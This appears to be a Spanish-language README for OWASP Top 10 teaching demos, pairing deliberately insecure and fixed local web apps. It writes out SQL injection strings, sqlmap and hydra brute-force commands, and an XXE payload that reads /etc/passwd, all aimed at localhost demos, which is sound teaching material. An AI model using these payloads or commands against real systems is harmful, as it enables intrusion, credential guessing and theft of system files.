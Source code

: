 # README #

Repositorio de demos OWASP.

# Links utiles #

* [Owasp zap](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)
* [Owasp virtual box](https://www.owasp.org/index.php/OWASP_Web_Testing_Environment_Project)
* [Owasp TOP 10 PDF](https://www.owasp.org/images/5/5e/OWASP-Top-10-2017-es.pdf)
* [SQLMAP](http://sqlmap.org/)
* [Hydra](https://sectools.org/tool/hydra/)

# Correr proyectos spring boot #

Para correr: click derecho en proyecto **run as** -> **maven build** en el campo **goals** ingresar **spring-boot:run** luego dar clic en run.

# Proyectos #
## a1inyeccion ##

**Spring boot**

#### inseguras ####

* Pruebas postman:
```
http://localhost:8081/owasp-a1/inseguro/usuario/jdbc/' or '1' like '1
http://localhost:8081/owasp-a1/inseguro/usuario/jpa/' or '1' like '1
```

* Prubas sqlmap
```
./sqlmap.py -u "http://localhost:8081/inseguro/usuario/jpa/admin*" --batch --random-agent -v --risk=3 --level=4 
./sqlmap.py -u "http://localhost:8081/inseguro/usuario/jdbc/admin*" --batch --random-agent -v --risk=3 --level=4
```

#### seguras ####

* Pruebas postman
```
localhost:8081/owasp-a1/seguro/usuario/jpa/' or '1' like '1
localhost:8081/owasp-a1/seguro/usuario/jdbc/' or '1' like '1
```

* Pruebas sqlmap

```
./sqlmap.py -u "http://localhost:8081/seguro/usuario/jpa/admin*" --batch --random-agent -v --risk=3 --level=4
./sqlmap.py -u "http://localhost:8081/seguro/usuario/jdbc/admin*" --batch --random-agent -v --risk=3 --level=4
```

## a2Autenticacion ##

**Spring boot**
Usuario y password **admin**

#### inseguras ####

```
http://localhost:8082
```

```
hydra -s 8082 \
      -L materiales/username.txt \
      -P materiales/password.txt \
      -o ok-out.txt \
      localhost http-form-post "/login:username=^USER^&password=^PASS^:S=seguro" \
      -t 20 -w 40 -vV -d -I
```

#### seguras ####

```
https://localhost:8083
```

```
hydra -s 8083 \
      -L materiales/username.txt \
      -P materiales/password.txt \
      -o ok-out.txt \
      localhost https-form-post "/login:username=^USER^&password=^PASS^:S=seguro" \
      -t 20 -w 40 -vV -d -I
```

## a4xxe ##

**Java 6 - Jetty server**

#### inseguras ####

Para correr: click derecho en proyecto **run as** -> **maven build** en el campo **goals** ingresar **jetty:run** luego dar clic en run.

**URL Comun put - get - delete**
```
http://localhost:8080/rest/libros
```

**PUT crea nuevo libro**
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE bar [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<libro>
    <autor>&xxe;</autor>
    <titulo>Metasploit Unleashed</titulo>
</libro>
```
**GET traer libros**

**GET traer un libro**
```
http://localhost:8080/rest/libros/{ID}
```

**DELETE elimina libros**
```
http://localhost:8080/rest/libros
```

#### seguras ####

**Spring boot**

**URL Comun post - get**
```
http://localhost:8084/seguro/libro
```

**POST crea nuevo libro**
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE bar [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<libro>
    <autor>&xxe;</autor>
    <titulo>Metasploit Unleashed</titulo>
</libro>
```
**GET traer libros**

## a5perdidacontrolacceso ##

**Spring boot**

```
http://localhost:8085
```

** Clase MainControlador.java **
```java
	@GetMapping("/seguro/editar/{id}")
	@PreAuthorize("hasPermission(#id, 'read')")
	public String irActualizar(@PathVariable("id") final long id, final Model model) {
    ...
    }
```
** Clase logica UsuarioOwnerSecure.java **

## a7crosssitescripting ##

**Spring boot**
Se sugiere correr en firefox.

```
http://localhost:8086
```

## a8insecuredeserialization ##

Ejemplo simplemente para comprender el proceso de serializacion y deserializacion.

La forma de atacar es conociendo las clases que se quieren serializar. De caso contrario no podran vulnerar, para eviatar esto se debe usar clases que implementan Serializable con serialID robustos.

